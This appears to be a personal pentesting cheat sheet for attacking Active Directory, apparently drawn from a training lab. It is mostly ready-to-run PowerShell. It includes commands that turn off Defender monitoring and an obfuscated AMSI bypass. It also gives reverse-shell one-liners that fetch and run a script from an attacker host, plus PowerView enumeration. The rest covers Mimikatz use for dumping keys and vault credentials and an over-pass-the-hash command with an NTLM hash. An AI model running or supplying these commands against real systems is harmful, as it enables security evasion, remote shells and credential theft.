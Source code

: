 # Privilege Escalation

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
```

## Enumeration





#### PowerView

Get all the users
```powershell
Get-NetUser
Get-NetUser | select -ExpandProperty samaccountname
$SecPassword = ConvertTo-SecureString 'Welcome2015' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('PWNY\jar-jar.binks', $SecPassword)
Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
Get-NetUser -Username student1
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
```

Get OU
```powershell
Get-NetOU
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```

Get GPO
```powershell
Get-NetGPO
(Get-NetOU StudentMachines -FullData).gplink
Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
Get-NetGPO -GPOName "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
Get-GPO -Guid [objectguid]
Find-GPOComputerAdmin - Computername dcorp-student1.dollarcorp.moneycorp.local
Find-GPOLocation -UserName student1 -Verbose
```

Get ACLs
```powershell
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights,AccessControlType
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
```

Get Domain Data
```powershell
Get-NetDomain
Get-NetDomain -Domain moneycorp.local
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy -domain moneycorp.local)."system access"
Get-NetDomainController -Domain moneycorp.local
```

### Attack

#### Mimikatz
```powershell
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Inspect credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
NTLM domain admin used to create a token and run powershell (over pass the hash)
```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```
